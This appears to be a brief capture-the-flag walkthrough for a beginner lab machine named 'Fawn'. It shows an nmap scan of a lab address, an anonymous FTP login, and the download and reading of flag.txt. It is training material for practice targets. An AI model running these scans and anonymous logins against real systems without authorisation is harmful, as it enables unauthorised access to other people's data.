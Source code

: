 # FAWN

STARTING POINT - TIER 0

## Enumeration

**Nmap scan**

```bash
nmap -sC -sV 10.129.1.14
```

![nmap](pics/nmap.png)

## Exploitation

**Connect to FTP Server**

```bash
ftp 10.129.1.14
```

**Login without having an account**

- `anonymous`

**List all contents**

```bash
ls
```

![ls](pics/ls.png)

**Download the file**

```bash
get flag.txt
```

![get_file](pics/get_file.png)

**Exit FTP Server and get flag**

```bash
cat flag.txt
```
